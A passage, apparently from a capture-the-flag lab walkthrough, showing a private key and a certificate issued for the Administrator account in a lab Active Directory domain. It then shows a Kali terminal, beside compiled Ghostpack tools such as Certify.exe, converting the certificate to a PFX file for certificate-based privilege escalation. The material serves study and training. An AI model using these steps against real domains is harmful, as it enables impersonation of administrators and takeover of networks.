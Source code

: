 ```
vjCEKtTxDyF67QDO5VzCqWn/3FcQf6LsbiVMFT/SpVoKXhTkRZGaWCcJdHZPSXLU
RETcrbIZAoGBAPZjDqFvv3DQasV2M2FghRLox6k8zX43X9yPjaRC/uD0Voao8wh6
67FJaDthIDujmnXhezq5NrUQ1U37x0lTRoPPPNZ2v9KVVTG3fkxQhZqATohi7GY+
ny4/+WBx7IkAwct3oMzcRe6L8HlVrGSANNvb7YCFw9UqOUKGXXOgdeXDAoGBAOrg
mz0PI7CVBkG4Gyms3tRNu6y6PN6mCcZpbVpSWe1switD7Tmx0dEjKX/YLaRgWDap
mgocDcxUYOSuzh+lOwcj2njxM5UwPe7tnqjrJAJlWN6hkKYHCHOnMRI2WrKOiRmL
oP0JZIYmvJtqkGlExAs9oDc9QEX/SjAuZbdI2GRfAoGARwg72ZLr8ExF2/O90F8R
PmhZ15Kt86tnOaExRqAB9zy6DUx79H/rn0r4f9X6gvchusZszntDKGRX+omR5LPb
ani+o13M45sl2pV6FepI+kfvXCaY3MlE/wJ2lLWDaeQL+urcMvN2PdWeWHy4nKjR
lGkNSbZGxRfNNj6iholGNB0CgYAcYX2AmEa4vJkf8c4ecAwQ3T+zNGHMiYWe2vhi
tJa3MLAZqECO+ySeP8Bw+T8yoI2oNUAuvosQSJXYrCKuAjoqt7Nbb9HK0iR5rW7B
fIBCZdqiNCWVWj40M1yjlbvJ3Z1FX/DZAnyKFT4vDWZbwfpqXUzxv833Z0ygm8qg
pgW3wwKBgQC3AdjTmd4Hy9/89bOZ/T+AVpSZ1rbPJl/a1MgE/pTTokbuKKASvYwY
v3eLIkVxwNkVl1WSccugKwv06txUHUr0t+42qhEemwZSv7hvA7HePVqCSdU40Okw
FOroN2LvavgtlXgn5JtBnJ6MBrGiSlr2dk99X+G4b7V0eEW5prPaCg==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGXTCCBUWgAwIBAgITGwAAAA8SWC5lmBQSNAAAAAAADzANBgkqhkiG9w0BAQsF
ADBcMRMwEQYKCZImiZPyLGQBGRYDY29tMRUwEwYKCZImiZPyLGQBGRYFZXJ1Y2Ex
FTATBgoJkiaJk/IsZAEZFgVsdW5hcjEXMBUGA1UEAxMObHVuYXItTFVOREMtQ0Ew
HhcNMjMwMjE2MjIxMDE3WhcNMjQwMjE2MjIxMDE3WjBuMRMwEQYKCZImiZPyLGQB
GRYDY29tMRUwEwYKCZImiZPyLGQBGRYFZXJ1Y2ExFTATBgoJkiaJk/IsZAEZFgVs
dW5hcjEOMAwGA1UEAxMFVXNlcnMxGTAXBgNVBAMTEFRyeSBUSE0uIEhhY2sgTWUw
ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDiDrd1G28nG788j2OFAH/i
RGgkm4eAAlIql2h+GxHFdtl9g2oeQjoqX9eKT7hbi8HKkNBpua3VWga+aSj0y5pH
vtIIwzXkwM3nu8d+FpODP2ir4Y/bTsc7iz3CH70ahhSJC2D5n/dVYwY6msM25BTi
yiwqIuc0AeUDjpDgt332PQI4czAb+oqTWPyHfZIKOKtHNEQiFPcNcLFnWBkoFwdX
c5AWETGlhOTuLwZW8l2BjfBGkW5VgeWAWMcXttryM4CBYx8wCnPMknHZuzYNfDUa
mniKkyD3L5mrcWFyRgujMVMbYLXJqdcgpgR++GLvFl+onpunNOf4e5wFkhROCG9d
AgMBAAGjggMEMIIDADA+BgkrBgEEAYI3FQcEMTAvBicrBgEEAYI3FQiGqOlnh6jG
PIaBlwSB4/0rhaHxS4FKhtO7NoHe8WACAWQCAQowKQYDVR0lBCIwIAYIKwYBBQUH
AwIGCCsGAQUFBwMEBgorBgEEAYI3CgMEMA4GA1UdDwEB/wQEAwIFoDA1BgkrBgEE
AYI3FQoEKDAmMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMEMAwGCisGAQQBgjcKAwQw
RAYJKoZIhvcNAQkPBDcwNTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
MAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBSOGWCpLOT1xOobBw7j3RPf
e2SPeDAoBgNVHREEITAfoB0GCisGAQQBgjcUAgOgDwwNQWRtaW5pc3RyYXRvcjAf
BgNVHSMEGDAWgBSwVuQVDTCXfO6YFdLBHVWyW4dytTCB0QYDVR0fBIHJMIHGMIHD
oIHAoIG9hoG6bGRhcDovLy9DTj1sdW5hci1MVU5EQy1DQSxDTj1MVU5EQyxDTj1D
RFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
ZmlndXJhdGlvbixEQz1sdW5hcixEQz1lcnVjYSxEQz1jb20/Y2VydGlmaWNhdGVS
ZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBv
aW50MIHHBggrBgEFBQcBAQSBujCBtzCBtAYIKwYBBQUHMAKGgadsZGFwOi8vL0NO
PWx1bmFyLUxVTkRDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNl
cyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWx1bmFyLERDPWVydWNh
LERDPWNvbT9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNh
dGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQsFAAOCAQEAHuDtHb95nYsXd+W0SwWO
fQSEYPoYAWDiIW431UooP7NDkhJ4gumgNFOTGHRZJDGAH8Afm5OOScHoLrCkS1lH
ZCUn8Rq88vRf+ZmfCO8E3Vd9BzzfWJSvzGu3NSNoHn9eKYFbT7zoegOpdlyWoyUT
n1muTs9y17m6d7BjBEwR5k/TKtKJYkGMrwzETmozPTJyDpGuXcA+yTXLo+Mcwr7r
UbYNA0LowCkE/U//2kFX4PtY/hGgCjD1gLC3NohW6NVjqGzWtrXfUm1kxQeqia9w
2d39Cix0DgnetDCK7fw1p7ZYSd2qK30SxlK1C+5C1/CkI7X+W9fNNa1FrqQu2SaD
zA==
-----END CERTIFICATE-----

┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
                                                                                   
┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ ls
 Certify.exe                        LockLess.exe          SharpDPAPI.exe
```